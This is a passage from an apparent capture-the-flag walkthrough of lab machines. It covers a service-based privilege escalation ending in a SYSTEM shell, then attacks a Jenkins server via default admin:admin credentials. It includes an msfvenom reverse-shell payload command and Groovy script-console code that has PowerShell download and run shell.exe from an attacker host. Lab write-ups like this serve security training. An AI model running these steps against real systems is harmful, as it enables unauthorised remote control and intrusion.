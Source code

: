 ```
        WAIT_HINT          : 0x0

C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```
Now after starting the service again, we will have a shell on our listener as SYSTEM.
```
[*] Started reverse TCP handler on 10.11.3.179:4444 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.115.163
[*] Command shell session 1 opened (10.11.3.179:4444 -> 10.10.115.163:49281) at 2020-07-18 13:26:14 +0100



C:\Windows\system32>whoami

nt authority\system
```

## ALFRED

### NMAP
```
Nmap scan report for 10.10.12.237
Host is up (0.054s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-07-18T12:46:20+00:00; 0s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.37 seconds
```

### JENKINS
We can log into jenkins with the credentials `admin:admin` and perform RCE from entering commands into the the script box at `/script`.

The plan is to upload a msfvenom payload `msfvenom -p windows/shell/reverse_tcp LHOST=10.11.3.179 LPORT=4444 -f exe > shell.exe` and run it in 2 commands to get a shell on the box.
```
def command = """powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.1.63/shell.exe', 'C:/Windows/Tasks/shell.exe') """
def proc = command.execute()
proc.waitFor()

println "return code: ${ proc.exitValue()}"
println "stderr: ${proc.err.text}"
println "stdout: ${proc.in.text}"
```
```
def command = """C:/Windows/Tasks/shell.exe"""
def proc = command.execute()
proc.waitFor()
```